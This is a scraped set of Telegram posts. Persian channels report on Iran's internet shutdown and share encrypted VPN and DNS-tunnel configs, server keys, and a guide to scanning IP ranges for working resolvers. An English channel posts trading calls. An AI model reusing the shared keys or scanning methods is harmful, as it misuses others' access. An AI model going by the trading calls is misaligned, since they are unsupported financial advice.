🌐 هفتاد و یکمین روز؛ اینترنتی که هنوز به جهان وصل نمی‌شود

▪️ قطعی اینترنت در ایران وارد هفتاد و یکمین روز شد. پس از آتش‌بس تقریبا همه چیز به شرایط قبل بازگشته است؛ مثلا دلار مثل همیشه بالا می‌رود، خودرو هر روز گران و گران‌تر می‌شود و روغن افزایش نرخ می‌گیرد. در این میان تنها چیزی که به حالت قبل بازنگشته، اینترنت است.

▪️ نت‌بلاکس اعلام کرد ایران اکنون وارد یازدهمین هفته محدودیت گسترده اینترنت شده و کاربران بیش از ۱۶۸۰ ساعت است که عملاً از اینترنت جهانی جدا مانده‌اند.

نت‌بلاکس در تازه‌ترین گزارش خود نوشته این محدودیت‌ها «مانعی بی‌سابقه برای دسترسی به دانش، اطلاعات و ارتباطات» ایجاد کرده است.

## sirhishamtradinghub — post 3675

  

today's PnL 💔

## sirhishamtradinghub — post 3674

  

$NQ!
I'm bullish scenario target PDH👁‍🗨

## sirhishamtradinghub — post 3673

  

CPI is Around The Corner 6min remaining take care and protect your running position

## sirhishamtradinghub — post 3672

As a metal and indices Trader

Once you ignore London and focus on NY only.

You Fix 70% of your mistakes.

Reaching for your goal is just one step ahead.

## sirhishamtradinghub — post 3671

Goo morning everyone

## sirhishamtradinghub — post 3670

  

If you enter a trade and it moves in your direction almost immediately, that’s a sign liquidity has already been taken.

But if you enter and price keeps printing candles without moving, you only have two choices: either exit early or stay long enough to become market makers dinner food or someone else’s liquidity.

## sirhishamtradinghub — post 3669

  

I have no reason to touch NQ today 👁️.
this is how desplined works ,the chart don't care how you feel, it only about how and when you execute matter

## sirhishamtradinghub — post 3668

  

$XAUUSD Want force me to chase this price aggresively the way he moves massive but i won't . patience always pay off📈

## sirhishamtradinghub — post 3667

  

look for Bullish set up in LTF on
$EU
possible.
Market maker buy model NY continuetion.

Do you espect price will hit draw today ?

YES SIR 👍

NO SIR 👎

## sirhishamtradinghub — post 3666

Happy New Week ✨

New week. New opportunities. New profits.

Stay patient, stay disciplined, and let the market reward your preparation. May this week bring clarity, growth, and success to every member of Sir Hisham Family. 📈

## sirhishamtradinghub — post 3665

Focus on improving value over love. The most important thing you should take care of is your health as well as your finances.

Simplicity 🙅🏻

## sirhishamtradinghub — post 3664

  

$NQ ! H4 and H1 structure is screaming Bullish momentum, just need small pullback then continue higher impulsively 📈.

Note: Don't sell at all time High ⚠️.

Agree with this 👍

Not agree 👎

Love NQ content ❤️

## sirhishamtradinghub — post 3663

  

EURUSD is going to be bullish this week according to the weekly chart outlook👁️. Target previous week high.

## sirhishamtradinghub — post 3662

Your next profitable week starts with your weekend preparation. Mark your levels. Review your mistakes. The market rewards prepared traders, not hopeful traders.

## sirhishamtradinghub — post 3661

Good morning everyone

## sirhishamtradinghub — post 3660

100k futures Funded account

100k CFDs Funded account ?

Trade one for the Rest of your life

Which is the best option for you ?

Future React 👍🏼

CFDs React 👎

## sirhishamtradinghub — post 3659

SIR HISHAM TRADING HUB pinned Deleted message

## sirhishamtradinghub — post 3656

Good day everyone happy weekend, i will share you some free airdrop updates here , as you know don’t introduce any free airdrops here , stay tuned this is good for those who interested only.

## sirhishamtradinghub — post 3655

  

$XAUUSD I’m bullish inside Daily fair Value Gap once lower timeframe confirms the key level.

What do you expect NFP will achieve today ?

## sirhishamtradinghub — post 3654

Good morning everyone

## khabarpro — post 1165

قیمت ها به مدت محدود تخفیف خورد

کانفیگ با حجم ۳ گیگ = ۱٫۴۰۰٫۰۰۰

قیمت ویژه امروز فقط ۷۵۰٫۰۰۰ تومان

دارای لینک ساب
بدون محدودیت زمان
بدون‌محدودیت کاربر
بدون ضریب

جهت سفارش پیام بدید

@m5008060

## khabarpro — post 1164

🤩تعداد محدود🤩 (v2ray) اکانت اضطراری موجود شد سفارش 👇 @m5008060

## khabarpro — post 1163

در آرامش قبل از طوفان به سر میبریم

## khabarpro — post 1162

هفتاد و سه روز از خاموشی اینترنت در ایران می‌گذرد؛ بیش از هزار و هفتصد و بیست و هشت ساعت محروم‌سازی مردم از دسترسی آزاد به اینترنت.

😔

## khabarpro — post 1161

🔴ترامپ:
من همین الان پاسخ به اصطلاح «نمایندگان» ایران را خواندم. از آن خوشم‌ نیامد، کاملاً غیرقابل قبول است! از توجه شما به این موضوع متشکرم.

@khabarpro

## khabarpro — post 1160

slipnet-enc://ASXwgQxGNguJ2DOO4DArD9WvQ4D51YkXfS6M9zkJq1TCNkzuQ6goE58PW4lS6LeXqZvTBNIzA2APs7wHkUQs16hsI+sC3xFqqxbHnJtXJJ6QGud6nDfnBMcdVkP/dj3yzdF5VU7xNoXa+lwytiNbnUk1KrSLhC4dgjCYKQYobg4UMOu167kKX7xj43SDkrNgs6CtR9nr9yG7xgM2kLkTMzZploc7EqrSUh/XlsbDiBR9pP6osPTkb51XPR2+kEQEEnyQBQ8yFjw+sAo9bi2D8KuGO1eM9INrdEMGFWeCcYWXENsDM9d57D/D6359rApKo/9K2XGx/P/1/cy9mrNYV9C42+8lz+ICUvGpS/vP/CeovNancjRCCHedx2iLFQyGOJ2SAQ7e2GXbd4vAyp6p3eVB5X0VM82uGyAoOfUgCL1TVY+eGoQEGDus6VIGs7yCSRhdZdPpyNtNTaFIB0aHOWj/mnAS97orjl0ZDJWh5VjM3cl+DFkHkoDpGi1vI7WYx4hTNattRb9t/g668+A3Yvq1GbLRd6O9V0N2eGHAOMlKCMduwtUr9NKrE/1uNQcUFfKV9m+j8f0HkBgqWqfv0UPK9M/EDhyELMJcNdzJmnudoIr3K6H7Wis46UIucBfTd0JKl2f8NYDyaSE+sf7JXcY/qq9x0tsHtqUaFxl1eA9gg5AA/hDQaBHdW/Cie0VQ+q7pG2kuxq2rK7/2CNv8+XnDkqkdWesCZgUYSWlRxVHXR2hxEmBQLdQnKaNV+jCs9bQLnZgqs5aDqP67iAIralEFlppwKaBZIEk=

## khabarpro — post 1159

vless://d3c7de84-54d6-4460-8acc-ffc63b023e5f@adler-1g.adelshoop.net:80?path=%2F&security=none&encryption=none&type=ws#%40TirexNet

کانفیگ ترکیبی V2RAY +Psiphon

## khabarpro — post 1158

slipnet-enc://AQZjbrZJnnlhJ54bsTr0D/dy24tJo9brj2isA8VRtIa74Z94u+BkG5gOp9nMTOoEcf9UgRSuFD3VWkmzKMrxf22D80UC36klbZLJR+lDL/5TgdWiqUeYRnprCbiz88c3eoIE52zprnsEC7gj6lPRJbQ5+ra1EeQdRn6BFFXUJ8yuwBzZcC7EBU3VQ+4fOMbeLS6e7twN2PaMoLzDGDMS9TahJbs3xj1rRSlWLRF6HHpX1IDPq6VVhttIFjvrIIJiaDiCU+fAHpu76HdBp1vQQx7uGDA9ZMOknDWNi29+/TU4mF4RdlcdCdpAt0+OmjfYinD1SGwuE9x6C/duqrskMHR+W+BE/gIFTYU/44yj5RP4BHppWrQuMDYUqZVpNCi/0fRhH005cdkFdX2iw+dpgDDQeFUgpxA1L45ZFGu7bT1vmjhaFMM8xfNcQwZZpTFgd8FmMvkvWh3pUQJ3NpTAao8gND/veHZaM6J1lk6x3zV1BYQmnurg6xHmP/iIYFcMrwrPIzfJuOJWRTrVYJAVGMLC5auSrlTQdrCx0XCCojhzx5zmWtCugqq/5nFFE3i6+IjrU5wzI7ACd2IcMEnLw85OxH07sR+oZLw2sXDvfT6RwfeYVrWy+1/Db2XQae5bjl67eI84Rdo4nGdWtJisK2pOlMVCLCxlQ/8otgM0APBhVkMnbKubxhkszQMmTZMRWh9CKiig4xj0DUPdThRdKOi0eQPal7ATEgFUsRkX5n+z4wZv5HaY2tvugRI6pc6Hte8Z+eqWMpbqJIjfomGWb8nl0C4WUj3i0RcLn7E8QQ==

## khabarpro — post 1157

‏🔴ایرنا، خبرگزاری رسمی جمهوری اسلامی: پاسخ جمهوری اسلامی به آخرین متن پیشنهادی آمریکا برای خاتمه جنگ، امروز به میانجی پاکستانی ارسال شد

@khabarpro

## khabarpro — post 1156

🔴 مارکو روبیو وزیر امور خارجه آمریکا: ایران به توافق جواب رد داده است

@khabarpro

## khabarpro — post 1155

slipnet-enc://AWNlAGKV51hDW8nDnwqAheK9DSggsISfLazrbJHpgb8448z/JxfNdcqrW/WWDBeUdSTbPT7dPSxUVMknFZIwCL3k0QQcWmd7EFbpQJx+5JOTaX08hUK8AWO3Phwgonh6wztS0Bt/5t4CBHDz+4n15w1erj+w3zLaXySiacQh5aPSw/Z2XIiYlNNqusmxmpcx2kvlCC+RjRNkz1GaGyW2fUz9Gm2s6pAjRKdK3w1GcmTymY2J4EF+im+TMwB1BbvhmZOXFl14GRWXM+ftbaPEPgN9ERSUxHaGPTgL77tK5bLuHUsoZ9UgV/CZIwJCGMzarRkbFBfykJkpJ2WLO69Hg4wYGr1+QeZzjJG0JvS7oLMuN4SomLlX10IejyBR186WiFrL5iDXRiN+BB6HVJhVWAU7eTUcCllfbTtmLiGahrTEkVHZrfax+8YDdyBFO6ehE4fDcOugTJf6N5Rko+/lTcd5lpAKYqTpcSWELwB7EJjHJ4t+CWJeg1VpbA/h9RCrKHQyX+RZ3SN+Hcy9I/0hZIwqoKXc0Z+6Hdx2Txuj+vQJZikyokBvmMzjHpkQPzxJvbcAPL9OaECtJx+VxYzqHENdOhOifWZnukF6WAtNXG6PTcFn3fZDRzhVJpBAX+MYYeKQBQ9jfYVqooSSLiCCuMT39YBiKklICZIEEjw7XNINnG5bwZFgsfcdEOE6vKW8KOULVUaV/XiBSFxwJw2Alu0y4L7HmEH5oNStFJ4DCG8HXGhHohYzUFdUfaLiURYp8EgqdGwy45iqsZMlli/lO4a6QanyPYMGvQ==

## khabarpro — post 1154

slipnet-enc://AVuGngYK79dS5G1U6nXYP9kcFGNjjh3yJlX5nv9k49V5y/oVTmgNb05Lh94T/FdQFyI3iKDX+Ad1ebLJTL35Sv4+HJN1H+80HlXWLr+A0odYHomfJaztIjTJ/KjjvcCfa3KR16OAaP3iEOC7P7E8467DkOf2tIvNuJ6ynn+NFeN4BGAalWExs261RDHD9Y55G8/0DxBea4jaI26gA1fYclmBbwrng+oAztx/WihSyBisy3gHqeNMeqyvbDR/VIlHQavNXB9X0q6pHGoNagxsIxOPh9QLyPKw+PbZYUEla6vZi95EJ4qpYLS1w0b2puWqlz0QvoXshbrzv6eV6IAmBSXduU8otNqNBImfhYicPwjTSQ/ic92qwnxYCJ8dDNgkddJv0ZYmAihaoEaRrDEpkmDPrpGSJtL39neoIfqnkFU+jefTqSr2TpbgmJmZ5+CLpUvesUdy7KM93S0ZsIUS+ll+C3rhV/2rbR01LiCEkPX4IzdnImVwTaLohGHgur1GL4i5vQlTOm8mGNqvvf9t64PWOeaQYPpZEvJ0/FJno8RIg9wG0bNOwXiLVppThQb5ZVaNYpWbdppPK+tBhP4maLvxZ9GKxCVHeuhNeYPEq7D377xQuGFwFrkx3rzHReDlhlGqIA33hwQh3ISHN+I9YQpwaFy7O1FjksKAwL0FONj9lNr2a7SIAR0R8V1xytxwaBU9J6jWl+fxoPPXcePbZ1C75tjMNcEgS3Wh2SVM+v2DVzCBvwtxzcReZnpyA+zx5rWDingmZBdSx5iHpkFcVia3Mg==

## khabarpro — post 1153

slipnet-enc://Adqc8SVfhF1y23Io2KXU7FlfDdDq160WfLtirOZ8rPFGSqxcVe8iJN7nOayGL7CmkgKvRnXF9KmVKotKZzN6rdFPXY52j+gaEUZs+EfQNovNVSwdBjJNscMoWfJCzJ/FbW6DlFvbXtz2zj7io5qWGIri4V60ciaE1/I8ms7rcaWJOt2dBSQs2zFsZGsvHEbcIzhAA1Fl9k0sYuZndqHVqvZzY4lvFg20P+QXTXwQn5k+DrUaVkWdgmvTaBU/aaFqEmLuqfXTzIPkV2IYLISHMmM0tMfJC7caF57AsIoxBGDsoFu//+QU/PYnIevJfD3aIFzCTgdvaNZyDP5KA55iFmR2PIXazIaPXWjACd0woOu154lsGnMNunglKdlzs0Gwaa6ykBDba24czk9P5uJaoG0Hjjp8hOVuVq0zjA+DJ/2vzKToDMvKI3YYMPq/fkptmH3heHQrtFI6BGFqIsctApA4fvbTeMNRw19BCt1f18obefL1iUD1Pdvh09VYoZbiaoN/G/qOE2WQh05c4Yp+qiRtoj/+ZGl74jkwCTn4CyNBy7FnWIVDTXveTGUtIR0aJS+MfNXA6zu/ji25RTOMpsugHyntcUaaO2k7Je6ew6XPLKPTzxF3ia4xg7FwOollH7ueW8VAhYwyvPzVkNdsafGgxvluNui9jRzQRSr1UFlp8eJJdlXbDtBOaUQR2vh83C0tqJUny09uJwDHsblPXe4vpcXZNsGFfHGnH9brAHkXeG9JhU8qHh7Z7/TPSMpORJ4Rr++VYgsEB+j2GxzxVAtgCOpZtUcO5nB/OZiYWUGvmgHpjwHm6XI651EG9PL6s3NjmxowHEK4o7gg3DZK4qbedEfOroiZDFf951q4/q96ONZo7FivSaI=

Proxy:
https://t.me/socks?server=127.0.0.1&port=10880
⏳ 5 - 10 دقیقه صبر لازمه

## khabarpro — post 1151

کانفیگ
Slipnet
Vaynds
اختصاصی

slipnet-enc://AUCfbTi7tAuv8teCuG6kMWVpTobRcBrKz41K0JMVgKprRqzmvsoUlbLS6oZkS4OXTSPiDIcf/cJ6/faVbzK1qxUBlRAGsW05JhiUxXGMMQhJhDfQ5A4Rc6RBSrng7HoYjpxxXbuY7AKOmn46QdsvoKk4p4VdF2JOAC/GUqJx/B3j935uoODl3o0ao9vaVTWaZKL7l7HQF/fKU9M1isUxLp2oSzHoR86/VO1/jGe6wlsUZ9tXSoUvfDfW+INWF2WZe+UZZo9/XJJlvVXeKgluNci6vrH6T12I5mYV5bJztq2Gduqg33jRv/+y/N6lKZAoSdEKp1dwlNa0E4j4/n1FYguymzl/6F0cPDcKy1+PFeQ90ap5/ZUyRhF75rDsNDJoiJ+jObOOoGeJVaU8Zbgh2YZ4jqj0g782U+BXGdy2iK4eg+IW0MJqvUbSV+AWfurPXPEpRAgBS9QpNaqGiJhJcteiJU3L8Iti74Cb+TSSSWNF0RGRwPYwldhDyMf+f9PagGyyo+7+ZBkAXDaFnAGYSt4oDy3RAFIvTVwqJM1fx6Z73b/092yi+tltljB4vfGZpm6ATc4iS4KcDhzIzCbDwcgBVw4tuhl6Lb9hjiOFVTsjCQkL7uAQX1Ud8kuQuFDmgemLu01wgYf8URP1pFCIl1FWV8n2p0cvJBTuhb+alTSAnCKHs5Bxg+Ryud02IPJyCbKyONuATC8yj40nBLMbnE73xN6JuoO3iMobreZU6I5e2X0h6rIKe/AWw4JJXR5Frw==

## khabarpro — post 1150

slipnet-enc://AWmodS9SOmqcRf9T4ADXaQ0Y3/riegfmn231qi48eXBCPYTkvLpKUKXKo3ZaoS3yjAMDU/hjcd8eNswyqmaw/64V9s3uaoGFHnEew7LIVJXJQ8FD75aCkFnsS1px4JviunhGzApQfMJYHD6Yh6O30b+vM3wIMiOSEdaIfV5MLP2u/YFV4nAJPBCZ0u08B0LKwESNJY9MAzAF6fI2omwIs8KY1HfG98CeSwGUlD5O0eQ0Pg74rr3UDVUo0I7iQJImSLi0PH0kKtm0xpM0tyZ1fpL8ns2wPgexOiukECxkeOLlqO35ic+EDge4nb4dVC/RtOr7Hrhpc2Voit9m7zeXsADOuih85ewWopvWE2ltYMFQ6lxopypZY/f5MfrRfM2w73o5CUSwHXszBF0dkJwZUcHC7MMxJZ4XLJvcOtUehiYFB84PzqouADXqy54xq+RBXZnDWrl/DRdWuHIZguHA0OQPT451YjMOBx8H5FrE/7KB7+bDflYQUcR4b8UIh+nmD/YP7SSE2CAI7lwLEu2jxVbUNLC1GMsx2RdychzcmPOIY1CCH+tWPe/frNw+Jj0r1sfb2A39HueaPZdbzHE2LKpQys81xYHNFVWW3KTXqJijhgDiXYDABIrnObSsgyJf/9LB7DED2zKLftEZlHy7+9yVcTuuGCc1Ix1Nv8uMWhW7yKdKtK4wXdAjzJMjE+hgict9pwsRvLYSYLh5VhYXnahlr5psRO3S7B8twnyp6UP/6YOlyhdwT/zigrJtAySPk0YZoUnQIjKMFaGI9TlAHQrYLXzL+yR1EggD5axhS+wsRko0ay+P47+hduN982GdEB0WlnMvXlLMiQBJpyMUqA==

## khabarpro — post 1149

slipnet-enc://AeTY6JTxNYoeLD6d8xaCt3Yi+PB2tLp5JDIfEmN1gUHwIK4jd+Lln+CMsM4L8eXAeqw+s8SPIJB2WhJdZUIjOxvJIbRs3UMP/394PRedlcrxPgT5wGlxLFNRRYX0UajvICL09sjcjZ5rKzp5EwfiN/1qAN2Svxs1A4crLMXOXH4rb4GJDcc783e56tFMyWPWHdkRFsmBaq1U0zyOoxXIkfFFobanbcD6MQ4eIomgN7lLCW2dUykFP7f+dzI8ubw7qZyraEfux8jTcgGAgbk4xsFzk8yUxoi4VY5+wBkyzA+GDnWwqZVDCCDhX2xcgSYqLzVWC/ZNq+8xrQekSheZyONtRnknOFKhIgxh8FAcmEx1q7Ixbbeda9Cbh9Br5b1fN0Ax/40S4rIJSBvB4sZqEd4y0YSt67LzZDLeQW4X7AuiMcX5Av7cxFgHfw6Z4gsYer5qv+qgVvzn4vtTPX4/GmRxXrmHfoSihH675Dl7HC7TvKw6PrSdWBcdDRtAdlg1ZEKJWXTnm2FLtqXKj5dGn+5T00MZVrBr77KnQaVVXExyhH0yVuCjIYL607TBFd4G3uN47DSuxcPQfbEIcnKbhGMh0WRArgeRGHTZQYVWvFIXoUuzq3MADCyczpedy8+E66W/EUvi33fgpGf44eUlzamx4aSNJxJ9ebUcmQLmjxAAlsy5UuYirayVCxJO

همراه اول تست شده وصل

## khabarpro — post 1148

slipnet-enc://AZjH7aVyveUm6DfQXH/DLKXbXleDDo/6ITo21imtHB8VOKkposUktdg253jNNybGSWEK0gNiWU1w5wITh8Icnalz3ULUQpU7vFmagz24bWc/mCzbJjUECsIkxrjwe/za7Pb5q7kasVJTcMTfR1buL0pL5vtsfej2rVyX9w3fJAKiQuC8I1VdBx3k+F/TuT/t4SLDkV+nOjxSKjJrUMUsKwRx61YllviLMb9XKFRkYwDqU/XojEkew3vcQFxI50uL5sN101M9O6nV8Z2shDKxlNnnnhl5anbLQzCk2D5VXgUEOCae47lvAYHNP9zs//O38GJIVaKdAwxEmROTzWXtz09TYMmwNgG59ocOYW2VticYUxyfMSkZjeOYyhdnwg01DZOPOmtPBEB0zNncx+d/uwZxGpsfX1NVYLzgK3sQjSr+tktQP+/BFluE1NLH00a+bB3aLYezEpYSBkYv0qJ4OVojgeXfXpvFaMD+hSzEXZgEXoMqN6e1G6g0kEUxJ+CtlfMizXvui+OWSXCrqwVBdj5MaowNpIaukvcif6mi9gXeqW06qa5VFZrOuV9zh3PtIk8jfbVXaDnWX/int6j7rbOd8g4+ThQkJrl1TN6hh9hSBaJ21wNo6+ANhi0SPnuQmcZgC5hkxQDNOBamhQ6CtZAcSZfLy5DmpPsbuda/4fV+uMB3jEeZeucw

## khabarpro — post 1146

🟢 آموزش اسکن کردن DNS با برنامه SlipNet 🟢

▎ مرحله اول 🖋
در مقابل هر کانفیگ یک مداد وجود داره، روی اون بزنید.

▎ مرحله دوم  ⚙️
در صفحه‌ای که باز شد:

• اگه کانفیگ قفل نبود ← مستقیما روی گزینه «Scan for working resolvers» بزنید.

• اگه کانفیگ قفل بود ← تیک گزینه‌ی
«Use custom resolvers»
رو روشن کنید، سپس روی
«Scan for working resolvers»
بزنید.

▎ مرحله سوم 📋 تنظیمات اسکن

🌐 Test Domain
می‌تونید خالی بذارید، یا دامنه کانفیگ خودتون رو بذارید، یا دستی بنویسید مثلاً google.com

⏱️ Port: 53
⏱️ Timeout: 3000

👷 Workers
• اینترنت مخابرات ← 20
• اینترنت خطوط همراه ← 15

▎ مرحله چهارم 🔀 گزینه‌های ویژه

🔀 Shuffle IP List
وظیفه‌اش اینه که آی‌پی‌ها رو به‌هم‌ریخته اسکن کنه به صورت رندوم، هر سری رنج‌های تکراری اسکن نکنه براتون.
← روشن بذارید ✅

🌍 Test Nearby IPs 24/
اگه یه تک آیپی مثل 2.188.21.130 بهش بدید، اگر تو اسکن مرحله اول سالم شناسایی بشه ، خودش تبدیل به رنج 2.188.21.0/24 می‌کنه و 256 آیپی همسایه یعنی کل اون رنج رو اسکن می‌کنه!

• خاموش ← فقط همون تک آیپی اسکن میشه
• روشن ← رنج /24 اسکن میشه

🌐 HTTP/SSH Verification
این بخش واسه اطمینان از اینه که DNS فقط «زنده» نیس بلکه «به درد هم می‌خوره»

⏱️ E2E Timeout: 15000
⏱️ E2E Concurrency: 3

▎ مرحله پنجم 📂 Resolver List

📁 روش اول : Import
دکمه Import رو بزنید ← وارد فایل منیجر گوشی می‌شید ← فایل .txt لیست آیپی‌ها رو بدید.

✏️ روش دوم : Custom
دکمه Custom رو بزنید ← باکس باز میشه ← DNS ها رو به این شکل کپی‌پیست کنید:

185.53.142.174
37.32.121.130
2.189.1.1
.
.
.

بعد از کپی‌پیست کردن، روی Load IPs بزنید و در آخر Start Scan رو بزنید.
▫️دی ان اس هایی که اسکن میکنید رو باید حتما داخل کانفیگی که کار میکنه تست کنید تا پینگ بده
▫️۹۰ درصد دی ان اس هایی که پیدا میکنید کار میکنن کم پیش میاد که کار نکنندولی احتمالش هست
▫️سعی کنید حداقل برای خودتون پنج تا دی ان اس شخصی داشته باشید تا کانفیگتون بهترین عملکرد رو داشته باشه
▫️هر لیست باید حداقل سه و حداکثر پنج بار در تایم های مختلف و اپراتورهای مختلف تست شود (شب بهتره برا اسکن)
▫️پیشنهاد ما اینه که با اینترنت همراه اول تست کنید چون هم بهتر پیدا میشه هم دی ان اس هایی که میده رو همه اپراتورها وصل میشن اکثراً ✔️
#slipnet #اسلیپ #Dns

## khabarpro — post 1145

slipnet-enc://AWioS2TSszLH5JxN74Sc0aAFaxvI74O3lZPYt1oZAnwHUbJrD3QcjB+nHh9FD859ep8EqvL/aPheKlI8yM+EXcequEPWRTOjMG3rMRMzTWeOHjRxoMVwcCNEI+k26NJ6cyEwihaw68CoB6Ot0Nu/9nptTZ23kISBsmg4y+deEMMqJqyCBa7KFwuGW1XltJCCyIQl0ppoogvtFEFF3NoxEOnQ9Fezhoun7LOkimnOKA79panW4/QiRUzPmyGs4nVe4a6D+SFt95n+m2CLgRjMpwqxO30lEVL+OgzZYUa5l/KfUmBE/zAqXst5XL5usS9sn0rKxHd9SVOjMNoy02qQTu7FeGvWLNWD7auXcrqB06K2YUziZWnXyrH13kf2si+uOkCzvIdZTa3ZDU2PAqj12K7w0ycD9xdkkzYSU/+F3MwSutdv5EnSWyCmV0EdGan/AaK+hrDMCk5vQABCoBb5IBzjzFxe9VwI6A5B+vOSmSmh0JY/+vlPoAcOzus40Es7J3RKWXBvRp++z5CHfhbn7u+YN0/iUsAWypA3mpIZFxep3HlODUaw08ynRPEzWIevwDFQjq2UcNcf/ZzpUUJLl8eW2dxqHjmzXh7EShJIyom0gUXPu0p6JhnKNN3jDGs1KviFJB4PwJNsuFPp/4NaC5rL6MzVSxZVSo6F5Gb8iQynfUdXnHs2qyepHFByajjEQBD2tXwXxZFgGJL5R3fErHsmI9SPQeBXIeA3ylSIkX09FwBxOtpSYTwYj1Ke+h8VGHkkV7AkGNRS1EXH1frLS7xSryHciHqR3w==

## khabarpro — post 1144

🔴 احتمال آغاز فروش گسترده «اینترنت پرو» توسط اپراتورها

طبق گزارش‌های اختصاصی رسیده به رادار، اپراتورها مجوز فروش اینترنت پرو را دریافت کرده‌اند و احتمال می‌رود این سرویس به‌زودی برای عموم کاربران عرضه شود.

این در حالی است که اینترنت بین‌الملل همچنان برای بخش بزرگی از مردم محدود یا مختل باقی مانده و حالا همان دسترسی عادی قرار است با قیمت بالاتر فروخته شود.

در عمل، به‌جای رفع محدودیت‌ها، مدلی رانتی در حال شکل‌گیری است که در آن اینترنت آزاد از یک حق عمومی به کالایی پولی و ویژه تبدیل شده؛ یعنی اول اینترنت را از مردم گرفتند و حالا همان حق عادی را قرار است با تعرفه بالاتر به خود مردم بفروشند.

## KalbodTeam — post 2104

و اینکه این روشای جدید دوس دارین خودم مثل همیشه از صفر و روون اموزش بدم یا دیگه خودتون دس بکار شدین و نیار نیست؟

## KalbodTeam — post 2103

🚀 MasterDNS 
🌎 Server 1 : 
#️⃣ DOMIANS : a.kalbodteam.com a.kalbodtm.ir a.kalbodteam.online a.kalbodteam.cloud a.kalbodteam.sbs 
#️⃣ ENCRYPTION KEY : a76e547e05d5c0f5f4a44814d0cdf862 
🌎 Server 2 : 
#️⃣ DOMIANS : b.kalbodteam.com b.kalbodtm.ir b.kalbodteam.online…

## KalbodTeam — post 2101

جدا از بحث چنل یه موضوعی ذهنمو درگیر کرده
میگن نتارو بستیم که افراد موساد جاسوسی نکنن
بر فرض محال که موساد اصلا استارلینکو چیزای ارتباطی که ما اصلا اسمشونو هم نشنیدیم رو نداره
یعنی ۵۰۰ تومنم نداره بده کانفیگ بخره؟ کیو مسخره کردید بابا نتارو باز کنید 😂

## KalbodTeam — post 2098

دوستانی که جدیدا جوین شدن این دوتا اموزشی که لینکشونو باز گذاشتم از صفره صفره یعنی بدون هیچ علمی هم میتونید مسترو اسلیپ و.. شخصی خودتونو درست کنید
فقط زود دانلود کنید ممکنه لینکا خراب بشن دائم سورس سایتو ادیت میکنم هنوز تموم نشده سایت.

## KalbodTeam — post 2097

من فعلا سرور موجود ندارم اگر بعد دیدن اموزشا سرور خاستید از سایتای ایرانی یا از این ربات که ساعتی هم داره میتونید بخرید

ربات

ساب دامنه و دامنه موجوده اگر با این کاری ک میرم بتونم جوابتون بدم ۱۶ ساعت اونجام تا میام خونه له له میشینم پای این سایت تمومم نمیشه🤦🏼‍♂

## KalbodTeam — post 2096

آموزش ساخت کانفیک 
🔺SlipNet : 
✅Slipstream SSH 
✅SlipStream SOCKS 
✅DNSTT + SSH 
✅DNSTT + SOCKS 
✅NoizDNS + SSH 
✅NoizDNS + SOCKS 
✅VayDNS + SSH 
✅VayDNS + SOCKS 
🔺NetMod : 
✅DNSTT + SSH 
🔺HTTP Injector : 
✅DNSTT + SSH 
🔺DarkTunnel : 
✅DNSTT + SSH شخصی و ایمن به ساده…

## KalbodTeam — post 2095

آموزش ساخت MasterDnsVPN شخصی و ایمن به ساده ترین شکل ممکن؛ حتی اگر یک بار هم با سرور کار نکردید با دیدن این ویدیو میتونید راحت کانفیگ خودتونو درست کنید.
😁 
✅ لینک دانلود داخلی 
✅ این لینک شامل تمام برنامه ها، فایل ها، آموزش ویدئویی و دستور های استفاده شده توی…

## KalbodTeam — post 2094

🚀 MasterDNS

🌎 Server 1 :

#️⃣ DOMIANS :
a.kalbodteam.com
a.kalbodtm.ir
a.kalbodteam.online
a.kalbodteam.cloud
a.kalbodteam.sbs

#️⃣ ENCRYPTION KEY : a76e547e05d5c0f5f4a44814d0cdf862

🌎 Server 2 :

#️⃣ DOMIANS :
b.kalbodteam.com
b.kalbodtm.ir
b.kalbodteam.online
b.kalbodteam.cloud
b.kalbodteam.sbs

#️⃣ ENCRYPTION KEY : 88d6e64fbc13a328b99dbe6fc98ec9d7

اگر دوس داشتید میتونید با دونیت کردن از فعالیت چنل حمایت کنید
❤️
درگاه ریالی و کاملا امنِ
✅
http://daramet.com/Kalbod

@KalbodTeam

## KalbodTeam — post 2093

  

بچها برای اینکه اتصالتون پایدار تر باشه میتونید چند تا پروفایل مستر دی ان اس رو پورتای مختلف اضافه کنید؛ هموشنو روشن کنید و پروکسیشونم اضافه کنید، بیاید تلگرام گزینه Auto-switch proxies رو روشن کنید و بزارید رو 10 ثانیه، اینطور هر 10 ثانیه یک بار چک میکنه و وصل میشه به اون پروکسی که پینگ پایین تری داره.
به شدت این روش پیشنهاد میشه و حتی میشه هم چند MasterDNS و هم چن تا SlipNet روشن کنید و این کارو کنید؛ فقط دقت کنید که پورتا حتما باید متفاوت باشن. من تو اسکرین دوتا کانفیگ گذاشتم شما میتونید با نامحدود تعداد کانفیگ این کارو بکنید.

## KalbodTeam — post 2090

  <a href="telegram/content/KalbodTeam_2090_1778607716.webm" target="_blank">🎬 Download video</a>

۵ دامنه با ۵ پسوند متفاوت
و سرور با سخت افزار قوی
رسما پخت پز 
😳

## KalbodTeam — post 2089

اون ۳ تا MasterDNS که تو گپ گذاشته بودم متاسفانه یه روزه قطع شدن. راستش دست و بالم عجیب خالی بود و پول نداشتم تمدیدشون کنم.
​برای اینکه هم خرجی خودم دربیاد هم به چنل برسم، رفتم تو یه کافه‌ نزدیک خونمون مشغول به کار شدم. صاحب کافه رفیقمه، باهاش صحبت کردم حقوق ماه اول رو الان برام بریزه. قرار شده تا ساعت ۹ یا ۱۰ صبح پولو بزنه.
تا واریز کنه، ۲ تا سرور با سخت افزار قوی باکیفیت می‌ندازم تو چنل که استفاده کنید
😊

## KalbodTeam — post 2088

  

میخواستم خیلی زودتر تمومش کنم ولی فک نمیکردم اینقد گرفتاری داشته باشه و به باگ و ارورای عجیب بخورم، تا یه حدودیش پیش رفتم و به امید خدا تا فردا یا نهایتا پسفردا تموم میشه. سایت قبلی فقط ۱۵۰ گیگ حافظه داشت و با ۲ میلیون کاربر همیشه پر بود.. ولی این یکی خیلی…

## KalbodTeam — post 2087

دارم رو این کار میکنم که یه چیز ایمن و سریع بالا بیارم ایشالا تا فردا تموم میشه

## KalbodTeam — post 2086

سایت «جان فدا» هک شد و طبق اطلاعت منتشر‌ شده، تا این لحظه مجموع ثبت‌ نامی ها 3,917,777 است.

از 90 میلیون جمعیت ایران فقط 4 میلیون هوادار البته با احستاب افغانی ها، عراقی ها، پاکستانی ها، یمنی ها، لبنانی ها، فلسطینی ها و آفریقایی ها..

## KalbodTeam — post 2084

